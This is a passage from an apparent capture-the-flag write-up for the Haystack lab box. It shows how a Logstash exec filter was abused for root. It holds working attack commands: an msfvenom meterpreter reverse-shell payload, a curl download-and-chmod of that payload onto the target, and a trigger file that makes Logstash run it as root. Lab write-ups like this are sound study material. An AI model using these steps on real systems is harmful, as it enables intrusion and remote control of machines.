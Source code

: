```
		mode => "read"
	}
}
output {
	if [type] == "execute" {
		stdout { codec => json }
		exec {
			command => "%{comando} &"
		}
	}
}
```

Logstash has filters configured to execute commands put in `/opt/kibana/logstash_*` where the message contains `Ejecutar comando : ` followed by a command.

I created a meterpreter binary payload:

```
ragingunicorn:~/htb/haystack# msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o met LHOST=10.10.14.12 LPORT=5555
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 129 bytes
Final size of elf file: 249 bytes
Saved as: met
root@ragingunicorn:~/htb/haystack# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Then transfered it to the box:

```
bash-4.2$ curl -o /tmp/met http://10.10.14.12/met && chmod 777 /tmp/met
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249  100   249    0     0   6119      0 --:--:-- --:--:-- --:--:--  6225
```

Then I created the trigger file:

```
bash-4.2$ echo "/tmp/met" > /opt/kibana/logstash_1 
```

I waited a few minutes then got a callback as root:

```
meterpreter > shell
Process 12972 created.
Channel 1 created.
cat /root/root.txt
3f5f72...
```